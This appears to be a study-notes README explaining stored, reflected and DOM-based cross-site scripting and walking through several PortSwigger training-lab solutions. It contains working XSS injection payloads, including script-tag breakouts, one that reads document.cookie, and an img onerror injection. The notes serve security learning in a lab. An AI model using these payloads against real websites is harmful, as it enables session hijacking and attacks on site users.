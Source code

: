### XSS Intro
XSS is a type of injection attack that allows attackers to execute arbitrary JavaScript in a user's browser, leading to session hijacking, phishing, defacement, or redirection to malicious sites.

*Stored XSS (Persistent)*
- Malicious script is saved on the server (e.g., in a comment or profile field).
- Triggered every time another user loads that data.

*Reflected XSS*
- Script is embedded in a URL or request.
- Reflected back in the response (e.g., in search results or error messages).

*DOM-Based XSS*
- Occurs entirely on the client side.
- JavaScript modifies the page using unsafe data from location, document, etc.

### XSS Apprentice practice in Portswigger Labs

####  Lab: Reflected XSS into HTML context with nothing encoded
- In a search bar type something easy to find when you do a **view page source**/**inspect** for a page and try to find if it is reflected somewhere, if yes - you could just try to escape some symbols and paste something like:

```html
"><script>alert('Hello friend')</script>
```

- Or alternatives:

```html
"><script>prompt('Hello friend')</script>
"><script>prompt(document.domain)</script>
"><script>prompt(document.cookie)</script>
```

#### Lab: Stored XSS into HTML context with nothing encoded
- Saving comments with XSS will do the thing:

```html
"><script>alert('Hello friend')</script>
```

#### Lab: DOM XSS in document.write sink using source location.search
- When you are using search bar pay attention that your check word appears in some image tag:

```html
<img src="/resources/images/tracker.gif?searchTerms=FUZZ">
```

- So you could try to escape it:

```html
"><img src=x onerror=alert('Hello friend')>
```
